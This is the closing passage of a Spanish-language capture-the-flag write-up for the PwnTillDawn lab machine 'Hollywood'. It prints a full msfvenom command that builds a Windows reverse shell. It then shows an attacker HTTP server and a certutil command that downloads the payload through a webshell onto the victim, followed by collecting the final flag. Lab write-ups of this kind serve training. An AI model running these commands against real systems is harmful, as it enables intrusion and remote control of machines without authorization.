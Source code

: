 Ahora, al acceder a nuestra webshell, podemos ver que podemos ejecutar comandos correctamente.
![im5](img/7.png)

Ahora lo que sigue es descargar una reverse shell en la maquina victima para entablarnos una shell.
para ello utilizaremos msfvenom

`msfvenom -p windows/shell_reverse_tcp lhost=10.66.66.106 lport=443 -f exe > rs.exe`

Una vez creado nuestra reverse shell, montamos un servidor http y descargamos nuestra shell con la ayuda de la webshell

`python3 -m http.server 80` (montar nuestro servidor http)

ahora descargamos nuestro exe con la ayuda de certutil que es la "versión" wget en windows.

`certutil -urlcache -split -f http://10.66.66.106/rs.exe C:\\Windows\\System32\\spool\\drivers\\color\\rs.exe`

y vualá, tenemos shell.

![im5](img/333.png)

ahora sólo queda buscar la última flag que está en "Documents" y listo, tendríamos a Hollywood terminada.

![im5](img/imagen_2021-03-09_025622.png)

Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
